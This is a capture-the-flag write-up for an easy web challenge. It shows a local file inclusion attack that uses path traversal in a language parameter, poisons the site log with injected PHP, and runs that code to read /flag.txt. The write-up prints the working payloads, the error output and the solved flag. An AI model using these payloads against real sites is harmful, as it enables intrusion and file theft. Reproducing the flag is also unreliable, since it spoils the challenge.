


# WHO IS JH

**Description:**

<small>Author: @HuskyHacks</small><br><br>I WANT TO BELIEVE. He can't be all three. Something doesn't add up!
<br><br> The challenge source code is available in the challenge.zip folder. The password is <code>snyk-ftf-2025</code>.
<br><br> Use the Dockerfile to run a local instance of the challenge! To build and the container, unzip the contents of the challenge.zip file and run:
<br><code>docker build -t [challenge_name] . && docker run -it -p 8080:8080 [challenge_name]</code>
<br><br>
<b>Press the <code>Start</code> button on the top-right to begin this challenge.</b>


**Category:** Web

**Difficulty:** easy

**File:** [challenge.zip](challenge.zip)

## Solution

While analyzing the source code and the page behavior, I noticed that conspiracy.php included an option to change languages. This functionality accepted input via the URL.

Upon reviewing log.php, I identified the file path used for storing logs. Using this information, I attempted directory traversal by passing a manipulated value in the language parameter: `conspiracy.php?language=languages/../logs/site_log.txt`


Next, I tried injecting PHP code via the URL: `http://challenge.ctf.games:32588/conspiracy.php?language=<?php system('cat /flag.txt'); ?>`

However, when checking the logs, I encountered an error:
```
[2025-02-27 21:00:38] Language parameter accessed: languages/../logs/site_log.txt [2025-02-27 21:01:01] Language parameter accessed: =
Fatal error: Uncaught Error: Call to undefined function system() in /var/www/html/logs/site_log.txt:2 Stack trace: #0 /var/www/html/conspiracy.php(15): include() #1 {main} thrown in /var/www/html/logs/site_log.txt on line 2 
```

This confirmed that the injected PHP code was being processed, but the system() function was disabled, preventing command execution.

Checking the Dockerfile, I found that file_get_contents() was not disabled. I then modified my payload to use this function: `conspiracy.php?language=<?php echo file_get_contents('/flag.txt'); ?>`

Navigating back to the log page, I was able to successfully retrieve the flag `flag{6558608db040d1c64358ad536a8e06c6}`

